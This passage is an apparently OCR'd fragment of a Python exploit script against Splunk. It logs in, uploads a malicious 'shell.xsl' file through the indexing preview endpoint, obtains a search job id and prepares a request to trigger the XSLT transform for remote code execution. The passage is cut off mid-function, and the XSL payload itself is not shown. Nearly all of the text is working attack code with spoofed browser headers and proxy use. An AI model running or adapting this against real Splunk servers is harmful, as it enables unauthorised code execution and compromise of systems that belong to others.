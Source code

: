 ```python
    }

    auth_url = f"{url}/en-US/account/login"
    response = session.post(auth_url, data=auth_payload, proxies=proxies)
    return response.status_code == 200

def get_cookie(session, url):
    response = session.get(url, proxies=proxies)
    return response.status_code == 200

def upload_file(session, url, file_content, csrf_token):
    files = {'spl-file': ('shell.xsl', file_content, 'application/xslt+xml')}
    upload_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "Accept": "text/javascript, text/html, application/xml, text/xml, */*",
        "X-Requested-With": "XMLHttpRequest",
        "X-Splunk-Form-Key": csrf_token,
    }

    upload_url = f"{url}/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=shell.xsl"
    response = session.post(upload_url, files=files, headers=upload_headers, verify=False, proxies=proxies)

    try:
        text_value = json.loads(response.text)['messages'][0]['text']
        if "concatenate" in text_value:
            return False, None
        return True, text_value
    except (json.JSONDecodeError, KeyError, IndexError):
        return False, None

def get_job_search_id(session, url, username, csrf_token):
    jsid_data = {'search': f'|search test|head 1'}
    jsid_url = f"{url}/en-US/splunkd/__raw/servicesNS/{username}/search/search/jobs?output_mode=json"
    upload_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "X-Requested-With": "XMLHttpRequest",
        "X-Splunk-Form-Key": csrf_token,
    }
    response = session.post(jsid_url, data=jsid_data, headers=upload_headers, verify=False, proxies=proxies)
    try:
        jsid = json.loads(response.text)['sid']
        return True, jsid
    except (json.JSONDecodeError, KeyError, IndexError):
        return False, None


def trigger_xslt_transform(session, url, jsid, text_value):
    xslt_headers = {
        "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0",
        "X-Splunk-Module": "Splunk.Module.DispatchingModule",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "X-Requested-With": "XMLHttpRequest",
    }
```